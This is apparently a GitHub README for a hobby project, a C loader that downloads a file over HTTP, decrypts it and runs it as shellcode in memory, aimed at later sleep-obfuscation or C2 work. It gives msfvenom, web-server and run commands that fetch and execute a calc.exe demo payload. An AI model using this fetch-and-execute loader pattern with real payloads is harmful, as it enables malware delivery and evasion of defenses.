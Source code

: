 # Shellcode Execution Project

## Overview

This project demonstrates how to download a file over HTTP, encrypt/decrypt its contents, and execute it as shellcode in memory. I mostly tried doing this out of curiosity. I'm just trying to get a sort of "building block" so I can attempt to create a Sleep Obfuscation technique and see how it works to then improve on it later for future projects... maybe a C2? 👀🤷 Who knows...

## Project Structure

- `src/main.c`: Main logic for the program.
- `src/encryptor.c`: Encryption and decryption functionality.
- `src/http_client.c`: Handles HTTP downloads.
- `include/encryptor.h`: Header file for the encryption logic.
- `Makefile`: Build system.

## Build and Run

### Build
```bash
make
```

### Steps to setup for analysis

Make sure you creat the shellcode first with `msfvenom` like so:
```bash
msfvenom -p windows/x64/exec cmd=calc.exe EXITFUNC=thread -f raw -o calc.bin
```

Then create the python web server to host the file: 
```python
python3 -m http.server
```

Then run the file with the right arguments:
```bash
./ultra-hider.exe localhost 8000 calc.bin
```
